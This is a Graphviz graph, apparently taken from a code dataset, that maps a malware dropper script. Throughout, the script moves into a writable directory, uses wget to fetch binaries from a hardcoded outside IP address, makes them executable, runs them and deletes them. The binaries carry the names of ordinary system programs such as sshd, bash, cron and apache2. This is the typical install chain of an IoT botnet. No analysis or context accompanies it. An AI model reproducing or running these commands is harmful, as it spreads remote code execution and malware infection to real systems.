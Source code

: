 digraph {
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 10 [label="||,"];
10 [label="wget http://89.34.99.95/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 28 [label="||,"];
28 [label="wget http://89.34.99.95/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 46 [label="||,"];
46 [label="wget http://89.34.99.95/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 64 [label="||,"];
64 [label="wget http://89.34.99.95/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 82 [label="||,"];
82 [label="wget http://89.34.99.95/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 100 [label="||,"];
100 [label="wget http://89.34.99.95/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 118 [label="||,"];
118 [label="wget http://89.34.99.95/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 136 [label="||,"];
136 [label="wget http://89.34.99.95/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 154 [label="||,"];
154 [label="wget http://89.34.99.95/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 172 [label="||,"];
172 [label="wget http://89.34.99.95/dtpg "];
172 -> 174 [label=";,"];
174 [label="chmod +x dtpg "];
174 -> 176 [label=";,"];
176 [label="./dtpg "];
176 -> 178 [label=";,"];
178 [label="rm -rf dtpg "];
178 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 190 [label="||,"];
190 [label="wget http://89.34.99.95/crons "];
190 -> 192 [label=";,"];
192 [label="chmod +x crons "];
192 -> 194 [label=";,"];
194 [label="./crons "];
194 -> 196 [label=";,"];
196 [label="rm -rf crons "];
196 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 208 [label="||,"];
208 [label="wget http://89.34.99.95/ttpd "];
208 -> 210 [label=";,"];
210 [label="chmod +x ttpd "];
210 -> 212 [label=";,"];
212 [label="./ttpd "];
212 -> 214 [label=";,"];
214 [label="rm -rf ttpd "];
214 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 226 [label="||,"];
226 [label="wget http://89.34.99.95/htpdxmp "];
226 -> 228 [label=";,"];
228 [label="chmod +x htpdxmp "];
228 -> 230 [label=";,"];
230 [label="./htpdxmp "];
230 -> 232 [label=";,"];
232 [label="rm -rf htpdxmp "];
232 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 244 [label="||,"];
244 [label="wget http://89.34.99.95/sh "];
244 -> 246 [label=";,"];
246 [label="chmod +x sh "];
246 -> 248 [label=";,"];
248 [label="./sh "];
248 -> 250 [label=";,"];
250 [label="rm -rf sh "];
250 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 262 [label="||,"];
262 [label="wget http://89.34.99.95/[cpu] "];
262 -> 264 [label=";,"];
264 [label="chmod +x [cpu] "];
264 -> 266 [label=";,"];
266 [label="./[cpu] "];
266 -> 268 [label=";,"];
268 [label="rm -rf [cpu] "];
268 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 280 [label="||,"];
280 [label="wget http://89.34.99.95/apache2 "];
280 -> 282 [label=";,"];
282 [label="chmod +x apache2 "];
282 -> 284 [label=";,"];
284 [label="./apache2 "];
284 -> 286 [label=";,"];
286 [label="rm -rf apache2 "];
286 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 298 [label="||,"];
298 [label="wget http://89.34.99.95/telnetd "];
298 -> 300 [label=";,"];
300 [label="chmod +x telnetd "];
300 -> 302 [label=";,"];
302 [label="./telnetd "];
302 -> 303 [label=";,"];
}
